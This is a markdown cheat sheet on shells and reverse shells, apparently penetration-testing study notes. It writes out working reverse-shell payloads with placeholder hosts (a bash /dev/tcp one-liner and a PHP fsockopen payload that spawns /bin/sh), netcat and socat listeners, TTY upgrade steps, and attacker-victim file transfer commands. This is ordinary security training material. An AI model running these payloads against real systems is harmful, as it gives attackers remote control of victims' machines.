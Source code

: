 # Shells
## Shells and Reverse Shells Cheat Sheet
| **Topic**                   | **Description**                                                                                     | **Examples/Commands**                                                              |
|-----------------------------|-----------------------------------------------------------------------------------------------------|------------------------------------------------------------------------------------|
| **Shells**                  | Interfaces to interact with an operating system (e.g., command line).                              | Bash, Zsh, CMD, PowerShell                                                        |
| **Reverse Shell**           | A shell initiated by the target machine to connect back to the attacker's machine.                 | `nc -lvnp 4444` (listener), `bash -i >& /dev/tcp/<IP>/<PORT> 0>&1` (payload)       |
| **How Reverse Shells Work** | Attacker sets up a listener, victim executes the payload, creating a connection back to the attacker.| `rlwrap nc -lvnp 4444` + victim payload                                           |
| **Where to Find Them**      | Reverse shell scripts are available on repositories like [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings). | Python, Bash, PHP, and PowerShell scripts.                                        |
| **Most Used Shells**        | Common shells for basic interaction and exploitation.                                               | `bash`, `sh`, `cmd.exe`, `powershell.exe`, `/bin/zsh`                             |
| **Simple Reverse Shells**   | Lightweight and easy-to-execute payloads for basic connectivity.                                   | `php -r '$sock=fsockopen("<IP>",<PORT>);exec("/bin/sh -i <&3 >&3 2>&3");'`         |
| **Advanced Shells**         | Feature-rich shells offering better usability and tools.                                           | PowerShell, socat, Python reverse shells.                                         |
| **`rlwrap`**                | A tool to wrap readline functionality for command-line utilities that lack it (e.g., netcat).      | `rlwrap nc -lvnp 4444`                                                            |
| **Netcat (nc)**             | A networking tool commonly used for setting up listeners and reverse shells.                       | `nc -lvnp <PORT>` (listener)                                                      |
| **Socat**                   | An advanced alternative to Netcat, supports encrypted connections and more protocols.              | `socat tcp-listen:<PORT>,reuseaddr,fork exec:/bin/bash`                           |
| **Upgrading a Shell**       | Converting a simple shell into a fully interactive TTY shell.                                      | `python3 -c 'import pty; pty.spawn("/bin/bash")'`                                  |
| **File Transfer with Shells**| Using shells to upload/download files between attacker and victim.                                | `wget <URL>`, `curl -O <URL>`, `nc -lvp <PORT> > file`                            |

---

### Common Shell Commands and Tips

| **Command**                                | **Purpose**                                                                       |
|--------------------------------------------|-----------------------------------------------------------------------------------|
| `python3 -c 'import pty; pty.spawn("/bin/bash")'` | Upgrade to a fully interactive shell.                                            |
| `export TERM=xterm`                        | Fix terminal display issues in a simple shell.                                    |
| `CTRL + Z`                                 | Background the current shell process.                                             |
| `stty raw -echo` and `fg`                  | Fix line formatting issues when bringing a shell to the foreground.               |
| `rlwrap nc -lvnp <PORT>`                   | Use `rlwrap` for history and arrow key navigation in Netcat shells.               |
| `socat tcp-listen:<PORT>,reuseaddr,fork exec:/bin/bash` | Start an advanced reverse shell listener.                                         |
| `php -r '...'`                             | Execute a PHP reverse shell payload.                                              |
